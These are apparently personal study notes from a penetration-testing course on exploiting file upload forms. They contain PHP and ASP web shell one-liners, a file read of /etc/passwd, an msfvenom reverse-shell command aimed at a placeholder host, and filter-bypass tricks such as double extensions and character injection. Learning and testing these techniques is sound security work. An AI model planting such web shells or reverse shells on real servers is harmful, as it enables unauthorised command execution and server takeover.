 # File upload attacks notes

## Cheat Sheets

### Web Shells

|Web Shell 	|Description|
|:----|:----|
|\<?php file_get_contents('/etc/passwd'); ?> 	|Basic PHP File Read|
|\<?php system('hostname'); ?> 	|Basic PHP Command Execution|
|\<?php system($_REQUEST['cmd']); ?> |	Basic PHP Web Shell|
|\<% eval request('cmd') %> |	Basic ASP Web Shell|
|msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php 	|Generate PHP reverse shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)| 	PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) |	PHP Reverse Shell|
|[Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) |	List of Web Shells and Reverse Shells|

### Bypasses

|Command 	|Description|
|:----|:----|
|Client-Side |Bypass 	|
|[CTRL+SHIFT+C] |	Toggle Page Inspector|
|Blacklist Bypass 	|
|shell.phtml 	|Uncommon Extension|
|shell.pHp 	|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) 	|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) 	|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) 	|List of Web Extensions|
|Whitelist Bypass 	|
|shell.jpg.php |	Double Extension|
|shell.php.jpg |	Reverse Double Extension|
|%20, %0a, %00, %0d0a, /, .\, ., … |	Character Injection - Before/After Extension|
|Content/Type Bypass 	|
|[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt) |	List of Web Content-Types|
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) 	|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) 	|List of File Signatures/Magic Bytes|

### Limited Uploads

|Potential Attack 	|File Types|
|:----|:----|
|XSS 	|HTML, JS, SVG, GIF|
|XXE/SSRF |	XML, SVG, PDF, PPT, DOC|
|DoS 	|ZIP, JPG, PNG|

## Absent Validation
One easy method to determine what language runs the web application is to visit the /index.ext page, where we would swap out ext with various common web extensions, like php, asp, aspx, among others, to see whether any of them exist.

We can use a fuzzer to identify this as well

To test if we can abuse php site with a webshell we can save a file with this to upload:

```
<?php echo "Hello HTB";?>
```

## Upload exploitation

We can upload a webshell and go to it to interact with commands on the server. Using any of the above in the cheat sheets to upload or creating our own like:

```
<?php system($_REQUEST['cmd']); ?>
```

We just have to request in the url with the cmd parameter like `?cmd=id`

This is not just focused on php, .NET can also be abused with a file like this:

```
<% eval request('cmd') %>
```

### Reverse Shell

We can also upload a reverse shell and get connection that way, using something like the pentestmonkeys php reverse shell in the above cheat sheet. Just make sure to change the IP and port values in the script before uploading.

We can also craft our own reverse shells scripts with msfvenom

```
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

## Bypassing Filters

There are going to be many types of bypass stuff we should focus on 

### Client side validation

In the case where we try to upload a file and we get a response in the likes of, "Only Images are allowed!" and are blocked we can do two things
- modify the upload request to the back-end server
- manipulate the front-end code to disable these type validations

Sending a proper request with burp and sending it to repeater we can change the filetype and upload it tht way. 

To disable it we can use the browsers page inspector (shortcut: [CTRL+SHIFT+C]) and select the upload functionality section, like the user profile for a profile image upload. If there is a list of filetypes we can just add php to this. Or we can just disable any client validation steps.  

### Blacklist filters

If the site is blocking out extensions we can fuzz the upload with our extensions list from the cheat sheet above with burp intruder or ffuf

Then we just test based on the file extensions provided, not all will execute with every web config.

### Whitelist filters

This is more secure then blacklists. We do the same in fuzzing the endpoints payload. 

We can use double extensions to also bypass, putting in something like: `shell.jpg.php`

Reverse double extensions: we can also abuse regex issues with something like `shell.php.jpg`

### Character injection

Another whitelist bypass we can do is character injection. 
- %20
- %0a
- %00
- %0d0a
- /
- .\
- .
- …
- :
